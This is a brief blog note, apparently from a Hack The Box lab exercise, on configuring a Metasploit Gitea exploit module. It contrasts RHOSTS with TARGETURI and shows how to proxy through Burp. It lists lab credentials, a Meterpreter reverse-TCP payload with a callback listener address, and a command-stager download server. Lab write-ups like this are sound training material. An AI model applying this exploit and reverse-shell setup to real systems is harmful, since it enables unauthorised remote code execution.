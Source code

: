 +++
author = "Frenchie"
title = "Extension HTB"
date = "2023-03-20"
description = "RainyDay HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

set RHOST vs TARGETURI in MSFDB

<!--more-->

with:
```text
   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   PASSWORD   spiderman            yes       Password to use
   Proxies    http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     dev.snippet.htb      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80                   yes       The target port (TCP)
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                    yes       The base path to the gitea application
   URIPATH    /                    no        The URI to use for this exploit
   USERNAME   spider               yes       Username to authenticate with
   VHOST                           no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.14.70      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8002             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.70      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

MSF will send like:
```text
GET / HTTP/1.1
Host: dev.snippet.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Connection: close
```

> Which is the correct request.

#### But with RHOST 10.10.11.171
```text
   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   PASSWORD   spiderman            yes       Password to use
   Proxies    http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.11.171         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80                   yes       The target port (TCP)
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  dev.snippet.htb      yes       The base path to the gitea application
   URIPATH    /                    no        The URI to use for this exploit
   USERNAME   spider               yes       Username to authenticate with
   VHOST                           no        HTTP server virtual host

```

MSF will send:
```text
GET /dev.snippet.htb HTTP/1.1
Host: 10.10.11.171
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Connection: close

```

> which is wrong request and will get response: HTTP/1.1 404 Not Found

### How to set MSF to send request through BURP suite
```text
set Proxies http:127.0.0.1:8080
```

> FORMAT type:host:port
>
> NOT `set Proxies True` like the fucking AI said.